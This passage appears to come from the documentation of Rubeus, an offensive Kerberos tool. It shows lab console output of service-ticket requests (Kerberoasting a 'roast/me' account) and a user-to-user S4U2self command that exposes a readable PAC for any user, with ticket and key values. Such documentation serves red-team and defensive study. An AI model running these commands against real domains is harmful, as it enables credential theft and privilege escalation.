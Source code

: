     v1.4.1

    [*] Action: Ask TGS

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Requesting 'rc4_hmac' etype for the service ticket
    [*] Building TGS-REQ request for: 'roast/me'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

        doIFrjCCBaqgAwIBBaEDA...(snip)...

    [*] Action: Describe Ticket

    UserName              :  dfm.a
    UserRealm             :  TESTLAB.LOCAL
    ServiceName           :  roast/me
    ServiceRealm          :  TESTLAB.LOCAL
    StartTime             :  2/25/2019 3:10:59 PM
    EndTime               :  2/25/2019 8:09:54 PM
    RenewTill             :  3/4/2019 3:09:54 PM
    Flags                 :  name_canonicalize, pre_authent, renewable, forwardable
    KeyType               :  rc4_hmac
    Base64(key)           :  Gg3zZicIl5c50KGecCf8XA==

Requesting a user-to-user service ticket and including the *PA for User* PA-DATA section (an S4U2self request), it is possible to get a readable PAC for any user:

    C:\Rubeus>Rubeus.exe asktgs /u2u /targetuser:ccob /ticket:doIFijCCBYagAwIBBaED...(snip)...3RwYWNrLmxvY2Fs /tgs:doIFijCCBYagAwIBBaEDAg...(snip)...YWNrLmxvY2Fs

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0

    [*] Action: Ask TGS

    [*] Using domain controller: PDC1.rubeus.ghostpack.local (192.168.71.80)
    [*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
    [*] Building User-to-User TGS-REQ request for: 'exploitph'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

          doIFKzCCBSegAwIBBaEDAgEWooIEKzCCBCdhggQjMIIEH6ADAgEFoRgbFlJVQkVVUy5HSE9TVFBBQ0su
                                            ...(snip)...
          cGxvaXRwaA==

      ServiceName              :  exploitph
      ServiceRealm             :  RUBEUS.GHOSTPACK.LOCAL
      UserName                 :  ccob
      UserRealm                :  RUBEUS.GHOSTPACK.LOCAL
      StartTime                :  20/07/2021 22:00:07
      EndTime                  :  21/07/2021 07:59:39
      RenewTill                :  27/07/2021 21:59:39
      Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
      KeyType                  :  aes256_cts_hmac_sha1
      Base64(key)              :  u2AYdjG4gLNIXqzb3MmwtDtE1k2NR5ty9h80w704+8Q=
      Decrypted PAC            :
        LogonInfo              :
          LogonTime            : 01/01/1601 00:00:00
          LogoffTime           :
          KickOffTime          :